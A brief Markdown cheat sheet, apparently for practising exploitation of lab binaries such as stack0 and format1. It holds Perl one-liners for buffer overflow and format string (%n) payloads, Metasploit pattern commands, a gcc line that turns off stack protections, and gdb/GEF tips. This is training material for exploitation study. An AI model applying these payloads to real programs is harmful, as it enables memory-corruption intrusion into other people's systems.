 ## Using PERL for argument.
   
```perl -e 'print  "\x31\xc0\x50\x68\" . "A"x76 . "\x28\xf4\xff\xbf" '```
```perl -e 'print  "A"x100 '```
- inside gdb
`# run $(perl -e 'print "A"x100')`
 
## Patterns for rewrite 

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 63413563` 


## Compile in Kali with no protection

gcc stack0.c -o stack0 -fno-stack-protector -z execstack -no-pie -m32 -ggdb


## HEX file representation

xxd pattern
00000000: 4161 3041 6131 4161 3241 6133 4161 3441  Aa0Aa1Aa2Aa3Aa4A
00000010: 6135 4161 3641 6137 4161 3841 6139 4162  a5Aa6Aa7Aa8Aa9Ab

## Strings search

strings filename
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A


## Format string example

run $(perl -e 'print "\xcc\xcc\xcc". "\x38\x96\x04\x08" . "%x"x165 . "%n"')
 - \x38\x96\x04\x08 address of parameter to change
 - %n should be padded exactly to location of string "\x38\x96\x04\x08" in the stack
 
First find the writable parameter with %x - in our case %6$x:
perl -e 'print  "AAAABBBB"."\x24\x97\x04\x08"."\x26\x97\x04\x08"."%6\$33956x" ."%6\$n"."%7\$33616x" ."%7\$n" ' > exploit

To make:  0x8049724:	0x080484b8
1) we write 84b8 at 0x8049724
2) we write 010804 at 0x8049726 ( + something to 84b8)
  
## File info

show  dynamic lynced libraries#     ldd format1
show  calls #                       strace ./format1


## GEF

- to divide output into 2 windows
run gef in tmux session#    tmux new-session -s shared
run gef #                   gdb -q ./binnary
crutch to make it work#     gef config gef.debug 1


	
